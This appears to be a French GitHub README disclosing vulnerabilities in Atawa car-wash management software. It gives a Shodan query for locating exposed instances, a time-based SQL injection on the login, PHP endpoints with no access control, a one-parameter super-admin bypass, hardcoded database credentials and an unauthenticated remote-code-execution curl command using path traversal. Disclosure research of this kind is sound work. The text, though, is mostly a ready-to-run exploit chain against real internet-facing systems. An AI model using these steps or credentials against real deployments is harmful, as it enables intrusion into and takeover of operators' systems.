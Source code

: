 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---

---------------------------------------------------------------
POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1
Host: xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: xx
Connection: close
Cookie: PHPSESSID=ww
Upgrade-Insecure-Requests: 1

login=test&pwd=test
------------------------------------------------------

--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 

---------------------------------------------------------------
/choix/choix_version_svg.php?resolution=1920x1080
/config/configubuntu.php?resolution=1920x1080
...
---------------------------------------------------------------

--- Bypass auth super-admin (alors celle la..) ---

---------------------------------------------------------------
/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)
/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)
---------------------------------------------------------------

--- Hardcoded creds ---
---------------------------------------------------------------
/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)
/systeme/super_administrateur.php (33310 - hardcoded dans le js..)
---------------------------------------------------------------

--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

---------------------------------------------------------------
curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php
---------------------------------------------------------------
